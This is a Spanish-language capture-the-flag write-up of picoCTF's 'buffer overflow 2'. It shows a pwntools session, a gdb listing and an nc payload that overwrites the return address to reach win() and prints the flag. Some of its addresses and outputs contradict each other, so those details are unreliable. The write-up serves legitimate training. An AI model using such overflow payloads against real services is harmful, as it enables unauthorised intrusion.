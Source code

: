 #  buffer overflow 2
---
## Objectivo
Control the return address and argumentsThis time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/346/vuln)?You can view source [here](https://artifacts.picoctf.net/c/346/vuln.c). And connect with it using `nc saturn.picoctf.net 60685`

---
## Solución

``` sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ python3
Python 3.8.10 (default, Jun 22 2022, 19:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> cyclic_find(0x6161616c)
44
>>> 'A'*44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> vuln = EFN('./vuln')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'EFN' is not defined
>>> vuln = EFN('./vuln')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'EFN' is not defined
>>> vuln = ELF('./vuln')
[*] '/home/angel/Documentos/ClasesUAZ/SRYS/S2/tmp/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
>>> p32(vuln.symbols['win'])
b'\xf6\x91\x04\x08'
>>> 'a'*44
'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'

angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ nc saturn.picoctf.net 65127
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ echo 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08' | nc saturn.picoctf.net 65127
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy_65489706}


```

``` sh
angel@angelMnt:~/Documentos/ClasesUAZ/SRYS/S2/tmp$ gdb -q vuln
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
(gdb) Quit


```

### picoCTF{addr3ss3s_ar3_3asy_65489706}
---
## Notas adicionales

direccion retorno
0x62616164

direccion a la que quiero ir 
0x08049296 win

BBBB - caracteres para rellenar

Direccion parametros de la función
$0xcafef00d,0x8(%ebp)
$0xf00df00d,0xc(%ebp)

---
## Referencias

youtube.com/watch?v=vVcGj3kIz-g&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=62&ab_channel=hackadvisermx